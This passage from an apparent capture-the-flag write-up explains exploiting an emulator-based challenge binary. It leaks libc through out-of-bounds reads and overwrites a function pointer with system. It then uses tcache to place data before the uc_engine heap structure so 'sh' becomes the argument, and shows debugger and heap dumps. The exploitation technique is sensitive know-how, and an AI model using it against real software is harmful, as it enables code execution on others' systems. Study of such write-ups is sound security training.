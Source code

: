 By reading out-of-bounds at the correct offset, we get a pointer to
libc. However, it is not very convenient since the leak is stored in a
register of the emulated program. Moreover we can only read data 4
bytes by 4 bytes. We first store the 4 first bytes to `rax`, copy them
to `rbx`, shift them 4 bytes left in `rbx`, read the 4 next bytes to
`rax` and finally add `rbx` to `rax`.

A quick win would have been to use a one gadget (thus not requiring to
control any registers) but unfortunately, the requirements on
registers/stack to use one gadgets were not met here. How frustrating
it was. :(

By substracting the right offset to `rax`, we can get the address of
`system` in `rax` and overwrite the pointer to `gci_read` with it
though.

## Actually "Controlling" `rdi`

What struck me in my despair is that the `uc_engine` structure is
actually stored... in the heap!

```
RAX  0x55a5fd8b2450 —▸ 0x55a5f65d38d9 (gci_read) ◂— endbr64
[...]
RDX  4
RDI  0x55a5fd8ad4d0 ◂— 0x800000004     <------ In the heap!
RSI  0xc
[...]
RIP  0x55a5f65d3939 (gci_write+8) ◂— sub rsp, 0x30
─
```

Therefore, if we manage to allocate the gift list before the structure
and overwrite the first bytes of the structure with "sh" (with the OOB
write) without making everything crash, it would be good!

It's dirty, very dirty. But it turns out that it actually works. I
would be curious to know what's the purpose of the first bytes of the
`uc_engine` structure.

Luckily for us, after the code is copied from user input, its buffer
is freed. Thus we have a chunk in tcache we can use to allocate our
gift list before the `uc_engine` structure.

```
0x55a5fd8ad290	0x0000000000000000	0x0000000000000231	........1.......
0x55a5fd8ad2a0	0x000000055a5fd8ad	0x00c76ed1283822c8	.._Z....."8(.n..	 <-- tcachebins[0x230][0/1]
0x55a5fd8ad2b0	0x0018bf4817894800	0xc74800000000cafe	.H..H.........H.
0x55a5fd8ad2c0	0x17894800001337c2	0x0000cafe0008bf48	.7...H..H.......
[...]
0x55a5fd8ad4b0	0xfe0008bf48178948	0x078b4800000000ca	H..H.........H..
0x55a5fd8ad4c0	0x0000000000000000	0x0000000000003a31	........1:......
0x55a5fd8ad4d0	0x0000000800000004	0x0000000000000000	................     <---- uc_engine structure
0x55a5fd8ad4e0	0x000055a5fd8b0f40	0x000055a5fd8b25a0	@....U...%...U..
```
